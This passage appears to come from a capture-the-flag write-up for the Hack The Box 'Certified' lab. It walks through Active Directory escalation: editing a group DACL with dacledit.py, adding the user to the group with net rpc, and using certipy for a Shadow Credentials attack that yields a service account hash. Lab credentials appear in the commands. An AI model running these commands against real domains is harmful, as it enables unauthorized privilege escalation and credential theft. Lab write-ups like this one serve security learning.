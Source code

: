 	1. Grant judith the AddMember privilege on the group
	2. Effectively make judith add herself to the group

<br><br>

Edit the DACL with dacledit.py to grant judith the _AddMember_ privilege:

<br>

	$ dacledit.py -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' certified.htb/judith.mader:judith09

<br>

![Pasted image 20241106013432](https://github.com/user-attachments/assets/00b7ab95-7705-4898-9b2b-98906bcecd67)

<br><br>

Using net rpc to add judith itself to 'management' group and then check if everything went well by listing group's users:

<br>

	$ net rpc group addmem "management" "judith.mader" -U "CERTIFIED.HTB"/"judith.mader"%"judith09" -S "certified"

<br>

Check if we succeded:

<br>

	$ net rpc group members "management" -U "certified.htb"/"judith.mader"%"judith09" -S "certified"

<br>
 
![Pasted image 20241106013509](https://github.com/user-attachments/assets/3bf87dfc-7fa3-40e0-851e-639626fdd12a)

<br><br>

We did. Now that we can write to management_svc attributes, we can do some interesting things like make the user *kerberoastable*, and use *pywhisker* or *certipy* to perform *Shadow Credentials attack* and retrieve the user's hash. Certipy looks a lot easier, so let's try with that one first.

<br>

    $ certipy shadow auto -username judith.mader@certified.htb -p judith09 -account management_svc

<br>

![Pasted image 20241109163017](https://github.com/user-attachments/assets/35362d9a-eccc-4552-aeb2-2426fe919ebd)

<br>

_We succed and retrieve the hash._

<br>

	management_svc:a091BLABLABLA5584

<br><br>
